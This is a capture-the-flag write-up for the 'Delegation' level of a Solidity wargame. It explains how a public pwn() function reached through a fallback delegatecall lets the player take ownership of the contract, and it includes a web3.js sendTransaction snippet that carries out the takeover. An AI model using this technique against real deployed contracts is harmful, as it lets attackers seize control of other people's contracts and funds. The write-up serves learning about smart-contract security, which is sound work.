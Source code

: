 #  Level 6 - Delegation 😊

We're given two contracts this time, **Delegate** and **Delegation**. And we can only interact with Delegation.

**To beat this level, we need to claim the ownership 👑 of the Delegate contract.**

## Vulnerabilities we can take advantage of 💀

- `pwn()` of Delegate contract, which can claim the ownership, is a [public](https://docs.soliditylang.org/en/latest/contracts.html#function-visibility) function.
- `fallback()` of the Delegation contract can `delegatecall()` the Delegate contract with `msg.data`.

> [**Fallback Function**](https://docs.soliditylang.org/en/latest/contracts.html#fallback-function)
>
> The fallback function is executed on a call to the contract if none of the other functions match the given function signature.

> [**Delegatecall**](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries)
>
> There exists a special variant of a message call, named `delegatecall` which is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract.
>
> In case of a message call, if `you` call a function on contract `A`, that calls a function inside contract `B` then code inside this function will get executed using `B`'s state variable. And here `msg.sender` will be `A`.
> 
> `You` -> `A` -> `B` -> (executes code with `B`'s state variable) (`msg.sender = A`)
>
> Whereas in the case of delegatecall, if `you` call a function on contract `A`, that calls a function inside contract `B` then code inside this function will get executed using `A`'s state variable. And here `msg.sender` will be `you`.
>
> `You` -> `A` -> `B` -> (executes code with `A`'s state variable) (`msg.sender = you`)

> [**msg.data**](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties)
>
> An unlimited size byte array specifying the input data of a message call.
> - The function it needs to call.
> - The arguments for the function.

## How to Hack? 👨🏻‍💻

Trigger `fallback()` function of **Delegation** with `msg.data` containing the function signature of `pwn()` of **Delegate**.

> `await contract.anyFunctionName()` will not work because the contract abi of **Delegation** doesn't contain `anyFunctionName()`. So we need to use [`sendTransaction()`](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html?highlight=call#sendtransaction)

```jsx
await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: web3.eth.abi.encodeFunctionSignature({
            name: 'pwn',
            type: 'function',
            inputs: []
        })
});
```

That's all we need to do to claim the ownership😎 of the contract.